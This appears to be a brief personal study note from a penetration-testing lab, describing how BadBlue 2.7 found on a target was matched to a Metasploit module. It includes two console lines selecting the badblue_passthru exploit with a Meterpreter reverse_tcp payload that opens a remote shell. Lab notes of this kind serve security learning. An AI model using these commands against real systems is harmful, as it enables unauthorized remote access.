 ```yaml
---
up: "[[Vulnerability Assessment]]"
---
```


# Vulnerability Research

- Found a BadBlue application running in the target machine.
- Search on google "badblue 2.7 cve"
- Go to exploitdb and search for "badblue 2.7"
- Found a metasploit exploit

```bash
> use windows/http/badblue_passthru
> set payload windows/meterpreter/reverse_tcp
```
